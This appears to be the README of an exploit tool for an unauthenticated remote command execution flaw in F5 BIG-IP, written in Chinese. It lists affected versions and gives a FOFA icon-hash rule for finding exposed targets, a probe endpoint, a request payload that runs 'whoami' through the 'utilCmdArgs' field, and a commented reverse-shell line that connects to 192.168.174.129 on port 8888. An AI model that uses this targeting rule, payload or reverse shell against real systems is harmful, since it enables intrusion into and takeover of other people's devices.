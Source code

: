 未经身份验证的攻击者可以通过管理端口或自身 IP 地址对 BIG-IP 系统进行网络访问，执行任意系统命令、创建或删除文件或禁用服务。

# 影响范围

11.6.1 - 11.6.5
12.1.0 - 12.1.6
13.1.0 - 13.1.4
14.1.0 - 14.1.4
15.1.0 - 15.1.5
16.1.0 - 16.1.2

# fofa搜索

FOFA_RULE = 'icon_hash="-335242539"'

# 漏洞概要

访问`/mgmt/shared/authn/login`,若返回中带有`resterrorresponse`则可能存在该漏洞。

默认执行whoami。可更换执行其他命令



`    data = {'command': "run", 'utilCmdArgs': "-c 'whoami'"}`

`# command: bash -i >&/dev/tcp/192.168.174.129/8888 0>&1`

